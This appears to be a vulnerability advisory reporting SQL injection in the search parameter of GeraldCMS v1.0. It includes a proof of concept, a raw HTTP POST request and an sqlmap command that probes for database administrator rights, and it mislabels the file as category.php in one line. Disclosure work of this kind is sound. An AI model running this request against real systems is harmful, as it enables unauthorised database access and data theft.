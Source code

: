 # GeraldCMS - SQL Injection (Search)

### Vendor Homepage:

> https://github.com/

### Software Link:

> [GeraldCMS](https://github.com/geraldib/GeraldCMS)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /GeraldCMS-main/search.php

> The parameters `search` within category.php are vulnerable to SQL Injection.


![search](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/2.4GeraldCMS-Sqli-Search.png)



### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `search.txt`:

```
POST /GeraldCMS-main/search.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/GeraldCMS-main
Cookie: PHPSESSID=8cpurtnsagp762psve9s7ua633
Content-Length: 63
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

search=1*&submit=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r search.txt  --batch --dbms MYSQL --is-dba
```


## Recommendations

When using this GeraldCMS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
